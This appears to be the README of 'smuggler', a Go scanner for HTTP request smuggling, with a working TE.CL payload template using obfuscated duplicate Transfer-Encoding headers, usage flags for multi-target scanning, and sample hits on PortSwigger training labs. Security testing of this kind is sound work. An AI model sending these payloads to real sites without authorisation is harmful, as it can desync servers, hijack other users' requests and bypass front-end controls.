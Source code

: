 # smuggler
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Example template:
```
Match: GPOST
Request: |+
  POST {{.Path}} HTTP/1.1
  Host: {{.Host}}
  Content-Type: application/x-www-form-urlencoded
  Content-length: 4
  Transfer-Encoding: chunked
  Transfer-encoding: cow
  
  5c
  GPOST / HTTP/1.1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 15
  
  x=1
  0
  

```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -header string
    	Custom header to add to requests, example: '-header "User-Agent: garlic0x1"'
  -proxy string
    	Set the environment proxy, for example: http://example.com:8080
  -threads int
    	Number of concurrent targets to test (default 5)
  -timeout int
    	Timeout (default 10)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ ./smuggler -urls targets.test
https://ace51fd41fcbfab0c03e376f00890063.web-security-academy.net/ is vulnerable, payload: templates/template.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template2.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template3.txt

```
